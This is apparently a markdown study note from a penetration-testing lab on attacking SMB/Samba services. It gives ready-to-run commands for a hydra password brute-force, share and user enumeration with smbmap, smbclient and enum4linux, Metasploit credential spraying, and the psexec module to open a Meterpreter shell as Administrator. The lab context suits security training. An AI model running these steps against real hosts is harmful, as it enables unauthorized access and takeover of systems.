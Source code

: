 
# Exploiting SAMBA


__1. Brup force attack on SAMBA__
- __`hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.198.30.3 -t 4 smb`__

__2. smbmap__
__`smbmap -H demo.ine.local -u admin -p password1`__
  - __It will display the user's and  permissions__

__3.smbclient__
__`smbclient //demo.ine.local/shawn -U admin`__
  - __it will connect the server like a ftp__
  - __`shawn` is a user__
  - __`-U admin` authenticate as a admin mean you can login using admin logs__

__4. enum4linux__
__`enum4linux -a -u admin -p password1`__

- __1. Target information__
- __2. Users__
- __3. SID of the users__












# SMB (Server Message Block) - 445 TCP, 139 on NetBIOS
  - __used for network file sharing, printer__
  - __SAMBA is the open source linux implementation of SMB__
- __1. We will run smb_login module to find all the valid users and their passwords.__
```
service postgresql start && msfconsole -q
use auxiliary/scanner/smb/smb_login
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set RHOSTS demo.ine.local
set VERBOSE false
exploit
```
## We have found four valid users and their passwords
- __2.Running psexec module to gain the meterpreter shell..__
```
service postgresql start && msfconsole -q
use exploit/windows/smb/psexec
set RHOSTS demo.ine.local
set SMBUser Administrator
set SMBPass qwertyuiop
exploit
```

